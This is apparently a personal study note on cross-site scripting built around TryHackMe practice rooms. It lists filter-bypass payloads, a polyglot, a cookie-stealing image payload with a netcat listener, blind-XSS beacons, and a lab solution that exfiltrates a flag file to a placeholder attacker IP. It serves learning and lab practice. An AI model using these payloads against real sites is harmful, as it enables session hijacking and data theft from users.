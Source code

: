 ```yaml
---
description: XSS (cross-site scripting).
---
```


# XSS

## 4 types of XSS attack methods:

1. Reflected XSS
2. Stored XSS
3. DOM XSS
4. Blind XSS

{% embed url="https://github.com/mandatoryprogrammer/xsshunter-express" %}

### Methods to load XSS payload

1. URL file path, or query parameters
2. Insecure Javascript functions
   * `eval()`
3. Non-validated user input forms
4. window.location.x&#x20;
   * Eg. `window.location.hash`

### Perfecting payload

_<mark style="color:green;">**Practice room:**</mark>_ [https://tryhackme.com/r/room/xss](https://tryhackme.com/r/room/xss), Task 7 (Perfecting your payload)

Some of the examples listed below are taken from the TryHackMe (THM) practice lab link above.

#### 1. Input within \<h2> tag with no filter _(THM level 1)_

a) Simply `<script>alert('XSS');</script>`

#### 2. Input used as value attribute of \<input> tag (_THM level 2)_

> Eg. XSS payload input: `<script>alert('XSS');</script>`->  `<input value="<script>alert('XSS');"</script>">`

a) `"> <script>alert('XSS');</script>`

* `"`: The first quotation mark is used to escape from the `value` attribute of the `<input>` tag
* `>`: The > character is used to close the `<input>` tag&#x20;

#### 3. Input used as value within \<textarea> tag _(THM level 3)_

> Eg. XSS payload input: `<script>alert('XSS');</script>`-> `<textarea><script>alert('XSS');</script></textarea>`

a) `</textarea> <script>alert('XSS');</script>`

* `</textarea>`: The \<textarea> closing tag to close the textarea

#### 4. Input used as value to innerHTML in a script (within a \<script> tag) _(THM level 4)_

> Eg. XSS payload input: `<script>alert('XSS');</script>` -> `<script> document.getElementsByClassName(...)[0].innerHTML='<script>alert('XSS'); ...`

_a)_ `'; alert('XSS'); //`&#x20;

* `'`:  To escape from the field
* `;`:  To signify end of command on the current line in JavaScript
* `//`: Makes the code after the alert statement to be comments (to not be executed)

_b)_ `' </script> <script> alert('THM');</script>`

* `'`: To escape from the field
* `</script>`: To close the original \<script> tag, to allow for opening of a new \<script> tag

#### 5. Filter that removes the word _script (THM level 5)_

> `Eg. <script>alert('XSS');</script>` -> `<>alert('XSS');</>`

`a) <scripscriptt>alert('XSS');</scripscriptt>`&#x20;

&#x20;    -> `<scrip`~~`script`~~`t>alert('XSS');</scrip`~~`script`~~`t>`

&#x20;    -> `<script>alert('XSS');</script>`



#### 6. Input used as value for the src attribute of the img tag, with HTML opening/closing tags removed (`<` and `>`) (level 6)

> Eg.&#x20;
>
> Valid input: <mark style="color:green;">/images/test.jpg</mark> -> `<img src="/images/test.jpg" >`
>
> XSS payload input: <mark style="color:red;">"> \<script>alert('XSS');\</script></mark> -> `<img src="" scriptalert('xss');="" script"="">` (< and > removed)

_**How to bypass:**_

&#x20;a) `/images/cat.jpg " onload="javascript:alert('THM');"`

* Instead of escaping out of the `<img>` tag to create a new `<script>` tag, an inline attribute can be used to call a script instead
* `/images/cat.jpg`:  Can be any other valid path to an image that exists. This is to trigger the `onload` attribute function to be called after the image has loaded.&#x20;
* `"`:  The quotation marks right after the invalid image file path is used to escape the `src` attribute, and create the `onload` attribute

`b) / " onerror="alert('XSS');"`

* Similar  to part a)
* `/`:  Can be any other invalid path to an image that does not exists. This is to trigger the `onerror` attribute function to be called.&#x20;
* `"`:  The quotation marks right after the invalid image file path is used to escape the `src` attribute, and create the `onerror` attribute

#### 8. IMG tag

`a) <img src="/invalid-path" onerror="alert('XSS');">`

`b) <img src="/valid-path" onload="alert('THM');">`

`c)` _**Extract the cookies?**_ :cookie: _**:**_ `<img src="/invalid-path" onerror="(function(){console.log(document.cookie);fetch('https://<server_address>:8888?cookie='+btoa(document.cookie));})()">`

Netcat command to listen at the _**\<server\_address>:**_

```bash
$ nc -nvlp 8888
```

&#x20;  -> Log the cookie and send an API call with the cookie as the request body



9. **Disallow `<script></script>` tag**

a) Use anchor tag: `<a onmouseover="javascript:alert('XSS');">...</a>`

b) Use iframe tag: `<iframe src="javascript:alert('XSS');">`

_... refer to OWASP cheat sheet below for more examples_



### Polygots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.&#x20;

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e``

Taken from: [https://tryhackme.com/r/room/xss](https://tryhackme.com/r/room/xss)

## Blind XSS payloads

1. `'"> <script>fetch('http://<IP>:[port]?xss=yay')</script>`
2. `'"> <script src="http://<IP>:[port]?xss=yay"></script>`&#x20;
3. `<img/>`,`<object/>`,`<iframe/>`

{% embed url="https://github.com/lauritzh/blind-xss-payloads/blob/main/README.md" %}

## Practice

{% embed url="https://tryhackme.com/r/room/thestickershop" %}

_**Blind XSS payload:**_

`"><script>(function(){`\
`fetch("http://127.0.0.1:8080/flag.txt").then(res=>res.text()).then(data=>fetch("http://<attack_box_ip>:<port>?v="+btoa(data)));`\
`})()</script>`



{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" %}
OWASP XSS filter evasion cheat sheet
{% endembed %}

{% embed url="https://github.com/payloadbox/xss-payload-list" %}

